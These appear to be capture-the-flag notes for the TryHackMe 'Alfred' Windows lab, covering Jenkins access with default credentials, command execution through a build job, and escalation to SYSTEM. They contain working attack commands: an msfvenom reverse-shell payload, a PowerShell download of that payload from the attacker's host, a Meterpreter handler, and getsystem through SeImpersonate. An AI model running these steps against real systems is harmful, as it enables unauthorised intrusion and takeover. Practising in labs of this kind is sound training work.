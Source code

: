 # THM: Alfred
# OS: Windows (Easy)

### Foothold

[WEB]
**Port 8080**
- Weak creds are in use:
  admin:admin
- Found RCE
  1. Navigate -> http://$ip:8080/view/all/job/project
  2. Change the command run on build from `Configure`
  3. Build project

### PrivEsc

**Get meterpreter shell**
1. Start msfconsole:
  `sudo msfconsole`
2. Use multi/handler:
  `use exploit/multi/handler`
3. Change the payload type and options than run
  `set payload windows/x64/meterpreter/reverse_tcp`
  ...
  `run`
4. Create a payload:
  `msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 shikata_ga_nai LHOST=tun0 LPORT=[PORT] -f exe -o shell.exe`
5. Transfer the payload:
  `powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell.exe','shell.exe')"`
6. Run the payload:
  `.\shell.exe`
7. You will get a meterpreter shell

[ENUM]
1. `whoami /priv`
  We have `SeImpersonate` privilege, we can try to get system with meterpreter's `getsystem`
  
[EXPLOIT]
2. `getsystem`
